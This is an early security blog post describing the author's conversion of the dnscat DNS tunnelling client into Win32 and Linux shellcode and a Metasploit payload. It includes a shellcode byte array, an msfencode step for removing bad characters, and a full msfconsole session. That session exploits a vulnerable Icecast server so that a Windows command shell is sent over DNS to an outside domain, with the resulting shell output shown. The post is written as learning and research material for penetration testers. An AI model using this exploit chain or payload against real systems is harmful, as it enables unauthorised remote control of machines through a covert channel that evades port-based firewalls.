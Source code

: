 ```yaml
---
id: 616
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-17T20:21:12-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=616'
permalink: '/?p=616'
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode. Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86, nor have I ever written shellcode, so this was a learning experience. Most people start with shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes. It's a party!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both dnscat (the client + server) and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it (I used Cygwin) -- you can compile the Windows shellcode on Linux and vice versa, though. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the system
- This is set up as a single stage, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities

That being said, it also works great when it's usable. The target I use for testing is [Icecast 2 version 2.0.0](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs. It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are,

1. Install [Icecast2](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) on your victim machine (Win32)
2. Download the experimental dnscat [Metasploit module](/blogdata/dnscat-shell-win32.rb) and put it in your Metasploit directory (modules/payloads/singles/windows/)
3. Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the [dnscat wiki](/wiki/index.php/Dnscat) for more information
4. Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:
```
msf > use exploit/windows/http/icecast_header         
msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32
msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221
msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org
msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
```

Meanwhile, on your dnscat server, if all went well, you should see:

```
$ sudo ./dnscat --listen<br></br>
Waiting for DNS requests for domain '*' on 0.0.0.0:53...<br></br>
Switching stream -> datagram<br></br>
Microsoft Windows [Version 5.2.3790]<br></br>
(C) Copyright 1985-2003 Microsoft Corp.
<p>C:\Program Files\Icecast2 Win32>exit</p>
<h2>Why bother?</h2>
<p>The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!</p>
<h2>Feedback</h2>
<p>As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code. </p>
<p>Thanks!</p>
```